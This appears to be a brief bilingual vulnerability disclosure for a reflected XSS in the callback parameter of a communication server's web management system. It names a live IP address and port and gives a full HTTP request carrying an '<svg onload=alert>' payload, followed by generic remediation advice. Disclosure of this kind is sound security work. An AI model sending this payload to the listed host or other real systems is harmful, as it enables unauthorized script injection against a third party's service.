

# The callback parameter of the communication server web management system has xss vulnerabilities

### 企业官网(Enterprise official website)：

http://117.157.85.8:9092/

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：

```
GET /?callback=<svg onload=alert('xxss')>//&cat=javq6&categoryid=te9s2&emailto=ih705&from=s7mr2&immagine=q9kp4&jsonp=evxp0&key=jza06&keywords=rxvf3&lang=hqp59&list_type=twby9&mod=ndiw0&month=tq8g8&name=cshm7&q=h9540&region=yecb3&terms=eo7f1&token=y9kz9&url=veet0&view=n6ff4 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip


```




### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

